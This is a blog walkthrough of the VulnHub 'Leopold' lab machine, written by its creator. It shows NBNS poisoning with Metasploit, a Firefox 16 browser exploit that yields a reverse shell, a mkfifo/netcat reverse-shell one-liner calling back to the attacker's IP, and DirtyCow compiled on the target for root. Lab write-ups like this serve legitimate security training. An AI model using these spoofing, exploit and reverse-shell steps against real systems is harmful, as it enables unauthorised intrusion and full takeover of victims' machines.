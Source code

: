 ```yaml
---
layout: post
title: Walkthrough of Leopold
published: true
categories: [vm]
tags: [vulnhub,sp,leopold]
fullview: false
description: A walkthrough of the leopold VM on VulnHub
comments: true
---
```


# Intro

Leopold was the second machine I created for my <a href="https://www.vulnhub.com/series/sp,189/">SP series</a> in late 2018, and I think it's the most popular of my machines. There are many walkthroughs out there for Leopold, but I wanted to show how I intended to solve it, but I have also made the walkthrough from an objective standpoint. Leopold is very different from any other VM that I have seen on VulnHub due to it's client-side aspect and will teach a real-world attack vector commonly used in penetration tests. Lastly, I would personally view this VM as easy in difficulty, but I have seen people complain about this. However, I think this is due to the unfamiliarity with this kind of exploitation.

## Enumeration

After finding the server on the network, we do a port scan to determine the services running:

```bash
$ nmap -sTV 192.168.0.31 -n -p-
---
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
---
```

The smb service doesn't yield anything useful, other than that it's a Linux machine, due to the Samba implementation of SMB. Where do we go from here? Let's fire up Wireshark to see if we can learn anything from there.

After some minutes we can see that there is a NBNS request for DISNEYWORLD made from leopold:
```
192.168.0.31 192.168.0.255 NBNS 92 Name query NB DISNEYWORLD<00>
```

## Setting up Man-in-the-middle

Netbios Name Service (NBNS) is like DNS, but simpler and decentralized. Instead of asking a server for hostname resolution, it sends out a broadcast asking the whole network if they know which IP-address a hostname resolves to. It is usually used together with LLMNR and mDNS as backup if a DNS request would fail. These protocols trusts the answers blindly, which makes them optimal for poisoning attacks to reroute the communication through our attacking machine.

There are multiple tools we can use for this, but we will stick to a Metasploit module which was made exactly for this.

Open Metasploit and use the auxiliary/spoof/nbns/nbns_response module. Set REGXP to "disneyworld" and SPOOFIP to your own attacking IP address. Keep Wireshark before writing "run" and hitting enter to start the module.

```
msf5 auxiliary(spoof/nbns/nbns_response) > options 

Module options (auxiliary/spoof/nbns/nbns_response):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   INTERFACE                   no        The name of the interface
   REGEX      disneyworld      yes       Regex applied to the NB Name to determine if spoofed reply is sent
   SPOOFIP    192.168.0.32     yes       IP address with which to poison responses
   TIMEOUT    500              yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Run NBNS spoofing service


msf5 auxiliary(spoof/nbns/nbns_response) > run
[*] Auxiliary module running as background job 0.

[*] NBNS Spoofer started. Listening for NBNS requests with REGEX "disneyworld" ...
msf5 auxiliary(spoof/nbns/nbns_response) > 
```

Soon we will see the following output in Metasploit, meaning that leopold now thinks that the DISNEYWORLD hostname is resolving to our attacking computer.
```
[+] 192.168.0.31     nbns - DISNEYWORLD matches regex, responding with 192.168.0.32
```

We will also soon after see some TCP requests to port 80 from leopold to our attacking machine in Wireshark. However, we don't have anything running on port 80. We can fire up a netcat listener to see the request.

```
root@kali:~# nc -nlvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.0.31.
Ncat: Connection from 192.168.0.31:51910.
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

Here we have the request leopold is making. There is two key pieces of information we can gather from this, namely the user-agent string and the endpoint he is trying to reach, which is the root directory. After a quick web search on the user-agent string, we learn that leopold is using Firefox 16.

## Initial Access

Searching for "firefox" in searchsploit gives many possible alternatives and after some research, the "toString console.time Privileged JavaScript Injection" exploit seems to be a match for the Firefox version in question and there is even a Metasploit module for it. The module sets up a webserver on the attacking machine to serve the browser exploit to visitors. Let's change the SRVPORT to 80, which was the port leopold was trying to reach, and URIPATH to "/", before running it.

```
msf5 exploit(multi/browser/firefox_tostring_console_injection) > options 

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.32     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)


msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
```

After some minutes we get a shell:

```
[*] 192.168.0.31     firefox_tostring_console_injection - Sending HTML response to 192.168.0.31
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[-] 192.168.0.31     firefox_tostring_console_injection - Target 192.168.0.31 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.0.32:4444 -> 192.168.0.31:36555) at 2020-09-15 17:15:05 -0400
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)

```

The shell is not stable and dies after some mintues. To fix this, we can create a new shell. Open a new netcat listener on port 3333 on the attacking machine and write the code below in the current shell. Remember to change the attacking IP address.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.32 3333 >/tmp/f
```


## Priv Esc

Due to the old Linux kernel version, we can try the goto DirtyCow exploit. Simply download, rename and host the source code on the attacking machine:

```
root@kali:~# wget https://www.exploit-db.com/download/40839
root@kali:~# mv 40839 40839.c
root@kali:~# python3 -m http.server 8080
```

Download, compile and run the exploit on the target host, from the remote leopold shell:

```$ wget http://192.168.0.32
$ gcc 40839.c -o cow -pthread -lcrypt
$ ./cow
```

Enter a password for the firefart root user and wait for the exploit to finish, before switching to the firefart user:

```
$ su firefart
$ id
$ uid=0(firefart) gid=0(root) groups=0(root)
```

## Summary

Leopold is a workstation and a user trying to browse the Internet. What is most likely a typo in the address bar of the web browser, results in DNS failing and the computer resorts to alternative name resolution systems, which are open for man-in-the-middle attacks. From here we poisoned the name resolution request and redirected Leopold's traffic to our attacking computer which served a browser exploit, gaining us remote access to Leopold's computer. Using a well known kernel exploit, we managed to gain administrative rights to his computer.  
  
This attack vector is being actively used in real world penetration tests, with tools such as Responder, that works with a lot of different protocols and sets up various fake services, such as SMB to steal domain credentials and hashes.
